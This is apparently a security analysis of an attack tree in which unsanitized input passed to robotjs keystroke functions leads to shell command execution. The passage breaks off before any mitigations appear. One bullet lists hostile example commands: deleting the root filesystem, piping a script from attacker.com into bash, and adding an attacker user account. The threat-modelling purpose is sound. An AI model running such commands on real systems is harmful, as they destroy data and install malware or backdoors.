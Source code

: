 ## Deep Analysis of Attack Tree Path: Abuse Application Logic -> Unsanitized Input -> Inject Malicious Keystrokes -> Execute Shell Commands

This analysis delves into the specifics of the identified attack path, focusing on the vulnerabilities, potential impacts, and recommended mitigation strategies for an application utilizing the `robotjs` library.

**Understanding the Attack Path:**

This attack path highlights a critical flaw in how the application handles user-provided input in conjunction with the `robotjs` library. The attacker leverages the application's logic to pass unsanitized input to `robotjs` functions, which are then interpreted as keyboard events by the operating system. This allows the attacker to inject arbitrary commands that the OS will execute with the privileges of the application.

**Detailed Breakdown of Critical Nodes:**

* **Achieve Arbitrary Code Execution via RobotJS:**
    * **Significance:** This is the ultimate goal of the attacker and represents a complete compromise of the system. Successful code execution allows for a wide range of malicious activities.
    * **How it's achieved:** By successfully injecting shell commands through `robotjs`, the attacker gains the ability to run any program or command that the application user has permissions for.
    * **Consequences:** Data breaches, system takeover, installation of malware, denial of service, privilege escalation, and more.

* **Abuse Application Logic Utilizing RobotJS:**
    * **Significance:** This node emphasizes the flaw in the application's design or implementation that allows `robotjs` to be misused. It suggests that the application uses `robotjs` in a way that is directly influenced by user input without proper safeguards.
    * **Examples:**
        * An application feature that allows users to define custom keyboard shortcuts or macros using `robotjs`.
        * A remote control feature that translates user actions into `robotjs` commands.
        * An automation script within the application that takes user input to determine actions performed by `robotjs`.
    * **Vulnerability:** The core vulnerability lies in the *lack of separation* between user-controlled data and the execution of sensitive `robotjs` functions.

* **Unsanitized Input Leading to Malicious RobotJS Actions:**
    * **Significance:** This is the linchpin of the attack. The application fails to validate or sanitize user-provided input before passing it to `robotjs`.
    * **Vulnerability:**  Absence or inadequacy of input validation, encoding, or escaping mechanisms. The application trusts user input implicitly.
    * **Specific Examples:**
        * Directly passing user-provided strings to `robotjs.typeString()` without filtering for potentially harmful characters.
        * Using user input to dynamically construct the arguments for `robotjs.keyTap()`.
        * Failing to properly escape special characters that have meaning in shell commands.

* **Inject Malicious Keystrokes into Keyboard Input Functions:**
    * **Significance:** This node highlights the specific `robotjs` functionality being exploited. Functions like `typeString()`, `keyTap()`, `keyToggle()` are designed to simulate keyboard input, and when provided with malicious input, they can be used to construct shell commands.
    * **Exploitation:** Attackers will craft input strings containing shell command syntax (e.g., `rm -rf /`, `curl attacker.com/malware.sh | bash`, `net user attacker password /add`).
    * **`robotjs` Functions at Risk:** Primarily functions that take string arguments representing keyboard input.
